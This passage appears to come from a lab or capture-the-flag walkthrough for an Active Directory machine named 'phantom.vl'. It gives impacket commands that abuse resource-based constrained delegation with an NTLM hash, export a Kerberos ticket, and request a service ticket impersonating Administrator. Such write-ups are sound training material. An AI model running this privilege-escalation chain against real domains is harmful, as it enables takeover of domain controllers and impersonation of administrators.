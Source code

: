 ```bash
impacket-rbcd -delegate-from 'crose' -delegate-to 'DC$' -dc-ip 10.10.99.92 -action 'write' 'phantom.vl'/'crose' -hashes :a3a18593413beb0266e62a9a2c16e693
```

![image.png](../images/phantom%2028.png)

Now let’s export the ticket

```bash
export KRB5CCNAME=crose.ccache
```

![image.png](../images/phantom%2029.png)

Now let’s request a service ticket

```bash
impacket-getST -u2u -impersonate Administrator -spn 'ldap/dc.phantom.vl' -k -no-pass phantom.vl/'crose'
```

![image.png](../images/phantom%2030.png)
